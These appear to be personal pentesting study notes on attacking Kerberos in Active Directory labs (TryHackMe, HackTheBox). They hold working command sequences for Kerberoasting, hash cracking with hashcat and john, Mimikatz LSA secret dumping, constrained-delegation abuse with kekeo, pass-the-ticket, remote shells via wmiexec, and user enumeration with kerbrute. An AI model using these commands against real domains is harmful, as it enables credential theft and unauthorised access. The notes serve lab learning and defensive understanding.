 # Kerberos

## Kerberos authentication

The user makes an AS-REQ to the Key Distribution Centre (KDC) on the DC that includes a timestamp encrypted with the user's NTLM hash. Essentially, this is the request for a Ticket Granting Ticket (TGT). The DC checks the information and sends the TGT to the user. This TGT is signed with the KRBTGT account's password hash that is only stored on the DC. The user can now send this TGT to the DC to request a Ticket Granting Service (TGS) for the resource that the user wants to access. If the TGT checks out, the DC responds to the TGS that is encrypted with the NTLM hash of the service that the user is requesting access for. The user then presents this TGS to the service for access, which can verify the TGS since it knows its own hash and can grant the user access.  

![Kerberos auth](../.res/2022-08-01-13-54-27.png)  

Source: [TryHackMe - Persisting AD](https://tryhackme.com/room/persistingad)

## Kerberoasting

- Any valid user gets a ticket with kerberos to access a service (SQL for instance)
- Tool: GetUsersSPNS.py - Impacket
- Get a hash using the tool
  
  ```bash
  ┌──(root💀kali)-[~kali]
  └─# GetUserSPNs.py marvel.local/fcastle:Password1 -dc-ip 10.0.2.5 -request
  /usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
  Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

  ServicePrincipalName                    Name        MemberOf                                                     PasswordLastSet      LastLogon 
  --------------------------------------  ----------  -----------------------------------------------------------  -------------------  ---------
  HYDRA-DC/SQLService.MARVEL.local:60111  SQLService  CN=Group Policy Creator Owners,OU=Groups,DC=MARVEL,DC=local  2022-01-28 17:55:04  <never>   

  $krb5tgs$23$*SQLService$MARVEL.LOCAL$HYDRA-DC/SQLService.MARVEL.local~60111*$eb60bb[STRIPPED]7e35f1a787901409e16bc
  ```

  - If we get this error `[-] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)` we need to coordinate our time with the server time using ntpdate
- `sudo apt install ntpdate`
     - `sudo ntpdate 10.10.10.100`

        ```bash
        5 Mar 19:42:53 ntpdate[19369]: step time server 10.10.10.100 offset +426.954203 sec
        ```
  - And then you should be able to rerun and actually get the hash

- Finding the proper module in hashcat `hashcat --help | grep Kerberos`
  ```
  ┌──(root💀kali)-[~/active-directory]
  └─# hashcat --help | grep Kerberos
     7500 | Kerberos 5, etype 23, AS-REQ Pre-Auth            | Network Protocols
    13100 | Kerberos 5, etype 23, TGS-REP                    | Network Protocols
    18200 | Kerberos 5, etype 23, AS-REP                     | Network Protocols
    19600 | Kerberos 5, etype 17, TGS-REP                    | Network Protocols
    19700 | Kerberos 5, etype 18, TGS-REP                    | Network Protocols
    19800 | Kerberos 5, etype 17, Pre-Auth                   | Network Protocols
    19900 | Kerberos 5, etype 18, Pre-Auth                   | Network Protocols
  ```
- We need TGS which is 13100
- Crack the hash with hachcat (for it to work I needed to have 4gb on my vm)
  ```bash
  ┌──(root💀kali)-[~/active-directory]
  └─# hashcat -m 13100 hashkerb.txt /usr/share/wordlists/rockyou.txt -O filename
  ```bash
- Crack the hash with john
  - Alternatively we can use john
  ```bash
  john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt kerbhash.txt
  ```

- We get the password
  ```bash
  $krb5tgs$23$*SQLService$MARVEL.LOCAL$HYDRA-DC/SQLService.MARVEL.local~60111*$eb6[STRIPPED]6bc:MYpassword123#
  ```
- After getting a password, we could connect to an smbshare or get a shell

  ```python
  python3 wmiexec.py active.htb/administrator:Ticketmaster1968@10.10.10.100
  ```
  or
  ```bash
  smbclient \\\\10.10.10.100\\Users -U active.htb\\Administrator
  ```

## Exploiting Kerberos Delegation

The practical use of Kerberos Delegation is to enable an application to access resources hosted on a different server. An example of this would be a web server that needs to access a SQL database hosted on the database server for the web application that it is hosting. Without delegation, we would probably use an AD service account and provide it with direct access to the database. When requests are made on the web application, the service account would be used to authenticate to the database and recover information.

However, we can allow this service account to be delegated to the SQL server service. Once a user logs into our web application, the service account will request access to the database on behalf of that user. This means that the user would only be able to access data in the database that they have the relevant permissions for without having to provide any database privileges or permissions to the service account itself.

Source: [TryHackMe](https://tryhackme.com/room/exploitingad)

### Example

- Enerumerate available delegations with a privileged user
  - `Import-Module C:\Tools\PowerView.ps1`
  - `Get-NetUser -TrustedToAuth`
- Dump LSASecrets with [Mimikatz](https://github.com/gentilkiwi/mimikatz/security)
  - `mimikatz.exe`
  - `token::elevate` To dump the secrets from the registry hive, we need to impersonate the SYSTEM user.
  - `lsadump::secrets` Mimikatz interacts with the registry hive to pull the clear text credentials.
  
![Dump](../.res/2022-07-29-13-06-16.png)  

- Perform the kerberos delegation attack with [kekeo](https://github.com/gentilkiwi/kekeo) `kekeo.exe`
- `tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:redacted` generate a TGT that can be used to generate tickets for the HTTP and WSMAN services
  - user - The user who has the constrained delegation permissions.
  - domain - The domain that we are attacking since Kekeo can be used to forge tickets to abuse cross-forest trust.
  - password - The password associated with the svcIIS account.

![generate TGT](../.res/2022-07-29-13-08-20.png)  

- `/user:t1_trevor.jones /service:http/THMSERVER1.za.tryhackme.loc` forge TGS requests for the account we want to impersonate. We need to perform this for both HTTP and WSMAN to allow us to create a PSSession on THMSERVER1
  - tgt - We provide the TGT that we generated in the previous step.
  - user - The user we want to impersonate. Since t2 accounts have administrative access over workstations, it is a safe assumption that t1 accounts will have administrative access over servers, so choose a t1_ account that you would like to impersonate.
  - service - The services we want to impersonate using delegation. We first generate a TGS for the HTTP service. Then we can rerun the same command for the WSMAN service. `tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:wsman/THMSERVER1.za.tryhackme.loc`
- Import the tickets with Mimikatz

```dos
privilege::debug
kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi
kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi
```

- You should have a similar output  

![output](../.res/2022-07-29-15-35-02.png)

- You can run `klist` to check that the tickets were imported
- We just need to create our session in our target  

![Session](../.res/2022-07-29-15-37-15.png)

## Bruteforce users with kerbrute

- Get kerbrute [here](https://github.com/ropnop/kerbrute)
- If you do not have creds yet but see kerberos in the list of ports, it is worth trying to enumerate users with a wordlist using kerbrute
- `./kerbrute_linux_amd64 userenum -d timelapse.htb --dc 10.10.11.152 /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt`

> Note: There's a lot of other things you can do with kerberos

## Resources

{% embed url="https://lisandre.com/archives/14538" %} Kerberos - port 88 by Lisandre {% endembed %}  
